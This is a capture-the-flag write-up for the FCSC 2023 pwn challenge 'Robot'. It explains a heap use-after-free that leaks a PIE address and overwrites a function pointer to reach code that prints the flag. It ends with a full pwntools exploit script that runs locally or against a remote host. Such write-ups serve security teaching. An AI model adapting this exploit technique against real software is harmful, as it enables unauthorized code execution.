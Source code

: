 +++
title = "FCSC 2023 | Robot"
+++
# [Pwn] Robot | FCSC 2023

* [1. Writeup](#writeup)
    * [1.1 Reverse](#reverse)
    * [1.2 Leak](#leak)
    * [1.3 RCE](#rce)
* [2. Full exploit](#full-exploit)

## Writeup

### Reverse
So, first in first what does we have to do ? After a fast analyse of the source code we can see that the function who's interesting is `admin`:

```c
void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
	char result[65];

	SHA256((const unsigned char *) pwd, strlen(pwd), hash);

	for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
		sprintf(result + (i * 2), "%02x", hash[i]);
	}

	if (rstcmp(result, encrypted) == 0) {
		execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
		perror("execl");
		exit(2);
	} else {
		puts("ERROR: wrong password!");
	}
}
```

it's a comparaison between our input hashed and a predefined hash, we don't are in a crypto chall so we don't care about that, our objective is to jump directly to the execl to print the flag.

Now it's exploit time ! In first we can see that when a user create a robot, this robot is stored in the heap, to do this the program alloc a `struct` called `robot` who contains one chars of 16bytes and two pointers so the chunk allocated will be of `32bytes` other interesting things is that when we read the manual the program will read the 32bits of the first chunk stored !

### Leak 
So now, we can understand how we are going to exploit this thing !

In first we going to allocate a first chunk by create a new robot so the heap will look like this:
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *bleep       |  32 bytes
|       *rool        |
+--------------------+
```
So if we free the chunk and then create a new manuel, malloc will allocate the manuel into our older freed chunk were we have the metadata of the chunk with an address to leak the PIE

### RCE
To gain a RCE we'll overwrite the pointers of the function bleep and replace it with the `execl` function, with this we can call `execl` with `/bin/sh` as parameter and get a shell

firstly we're going to create a new robot so the freed chunk will be realocated
and we create a new manuel and write 16 bytes and then the `execl` function address, to rewrite the bleep pointer
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *execl       |  32 bytes
|       *roll        |
+--------------------+
```

then we trigger the `bleep` function by typing 2 and tada ! we got our flag !

## Full exploit

```python
#!/bin/python
from pwn import *
from sys import argv

def recv_header(io):
    io.recvline()
    for i in range(4):
        io.recvline()

def create(io, data="Botman"):
    recv_header(io)
    io.sendline(b'1')
    io.sendlineafter(b"> Comment vous l'appelez ?\n", data)
    io.recvline()
    io.recvline()
    return 'robot created'

def manuel(io, data="data"):
    recv_header(io)
    io.sendline(b'4')
    io.sendlineafter(b"Vous commencez \xc3\xa0 r\xc3\xa9diger le mode d'emploi...\n", data)
    io.recvline()
    return 'manuel created'

def delete(io):
    recv_header(io)
    io.sendline(b'3')
    for i in range(3):
        io.recvline()
    return 'robot deleted'

def show(io):
    recv_header(io)
    io.sendline(b'2')
    return io.recvline()

def read(io):
    recv_header(io)
    io.sendline(b"5")
    io.recvline()
    return io.recvline()

def exploit(io, elf):
    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16)
    leak = read(io)
    leak = leak[leak.index(b'\xfc'):][:-2]

    hex_values = [hex(byte)[2:].zfill(2) for byte in leak if byte != 0]
    hex_string = bytes.fromhex((''.join(hex_values)))[:8][::-1]
    hex_int = int.from_bytes(hex_string, 'big')
    leak = int(f'0x0000{hex_int:012x}', 16)

    flag = leak + 0x180
    
    print("leak :" + hex(leak))
    print("flag :" + hex(flag))

    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16 + p64(flag))
    print(show(io))

if __name__ == "__main__":
    usage = '''
usage: ./exploit.py [binary] ?debug
       ./exploit.py remote [binary] [ip] [port] ?debug
       ./exploit.py [binary] ?gdb [command]

       default command = 'continue'
'''

    if len(argv) <= 1:
        print('error: no arguments specified\n'+usage)
        exit(0)

    elif len(argv) <= 5 and argv[1] != 'remote':
        context.binary = elf = ELF(argv[1])
        context.terminal = ["tmux", "splitw", '-h']
        p = process()
        if "gdb" in argv: gdb.attach(p, argv[-1]) if argv[-1] != 'gdb' else gdb.attach(p, 'continue')
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p,elf)
    elif len(argv) <= 6 and argv[1] == "remote":
        context.binary = elf = ELF(argv[2])
        p = remote(argv[3], int(argv[4]))
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p, elf)
    elif len(argv) > 5:
        print('error: too much params specified\n' + usage)
        exit(0)
    elif len(argv) <= 3:
        print('error: you forgot ip or/and port\n' + usage)
        exit(0)
    else:
        print(usage)
```
[download here](/exploits/robot.py)
